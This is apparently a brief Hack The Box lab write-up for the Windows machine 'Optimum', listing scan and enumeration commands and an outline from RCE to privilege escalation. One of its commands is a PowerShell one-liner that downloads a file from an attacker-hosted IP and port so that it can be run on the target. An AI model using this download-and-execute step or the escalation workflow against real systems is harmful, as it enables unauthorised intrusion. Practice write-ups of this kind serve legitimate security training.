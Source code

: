 # Optimum
* Link: https://app.hackthebox.com/machines/Optimum
* Type: Windows
* Difficulty: Easy

## Commands Used
* *nmap -sC -sV -oA OUTPUTDIR IPADDRESS* - Nmap scan.
* *tcpdump -i INTERFACE* - listens on that interface for ping requests.
* *locate filename* - finds the file path.
* *./windows-exploit-suggester.py --update*
* *./windows-exploit-suggester.py --database DBNAME.xls --systeminfo SYSTEMINFOFILE*
* *powershell -c "(new-object System.Net.WebClient).DownloadFile('http://IPADDRESS:PORTNUMBER/FILENAME', 'PATH/FILENAME.EXT')"* - downloads a file.
* *FILENAME.EXE* - Runs the file in Windows
* *type TEXTFILE.TXT* - Reads a text file.


## Steps
* Start by checking the open ports using nmap (nmap -sC -sV -oA DIR IPADDRESS)
* Finds a website check for vulnerabilities for that website.
* Find a vulnerability that gives RCE.
* Get user flag
* Get systeminfo
* Use Windows Exploit Suggestor to get a recommendation for privilege escalation.
* Find a CVE use it to get root.

## Why is the machine vulnerable
* The Machine is not patched/updated. 
